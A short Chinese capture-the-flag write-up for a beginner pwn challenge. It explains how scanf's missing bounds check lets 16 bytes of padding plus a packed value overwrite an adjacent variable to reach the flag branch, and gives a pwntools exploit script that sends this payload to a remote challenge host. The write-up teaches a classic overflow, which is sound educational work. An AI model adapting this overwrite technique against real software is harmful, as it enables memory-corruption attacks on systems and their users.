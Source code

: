 # 可恶的scanf

## 出题意图

高程入门的时候，大家都遇到过MSVC默认配置不支持scanf的问题

那么为什么这样会存在安全问题呢，如果涉及到rop可能又太复杂，所以变量覆盖的难度刚刚好

## 解题思路

利用scanf读取不检查边界的问题，直接将变量覆盖

输入

```
aaaaaaaaaaaaaaaaCAca
```

即可变量覆盖，满足if的分支条件，读取flag

exp如下

```python
from pwn import *

io = remote("10.10.175.247", "33434")

# io = process("./docker/pwn")

delim = b"Please input the secret: \n"

payload = b"a"*16 + p32(0x61634143)

io.sendlineafter(delim, payload)

io.interactive()
```

